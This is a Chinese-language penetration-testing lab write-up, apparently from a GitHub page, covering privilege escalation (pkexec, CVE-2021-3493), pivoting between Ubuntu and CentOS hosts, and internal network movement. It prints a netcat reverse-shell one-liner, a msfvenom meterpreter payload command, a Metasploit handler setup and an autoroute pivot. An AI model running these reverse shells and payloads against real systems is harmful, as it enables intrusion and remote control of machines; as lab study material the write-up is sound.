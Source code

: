 刚才直接试了pkexec和CVE-2021-3493都不行，原来需要先用蚁剑把Ubuntu的shell弹到centos上再进行提权

首先是centos安装nc（https://blog.csdn.net/weixin_40583191/article/details/106803430）

```
反弹shell

centos
nc -l 2333

ubuntu
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.93.100 2333 >/tmp/f

```

![image-20221012113240782](images/31.png)

除此之外，之前没有成功的pkexec提权也可以

![image-20221012113346906](images/32.png)

## msf上线centos

利用CrossC2生成一个linux的shell，名为test

```
./genCrossC2.Linux 192.168.1.128 6666 null null Linux x64 test
```

这里因为兼容性的问题，我就没有用CrossC2了，直接用msf上线了

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.129 LPORT=9999 -f elf > shell.elf
```

```
msf起监听
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.1.129
set lport 9999
run
```

上传到centos上运行，运行前要`chmod +x shell.elf`

![image-20221012123439812](images/33.png)

## 内网横向

从得到的Ubuntu路由192.168.93.120来看，我们添加路由

```
run autoroute -s 192.168.93.0/24
background
```

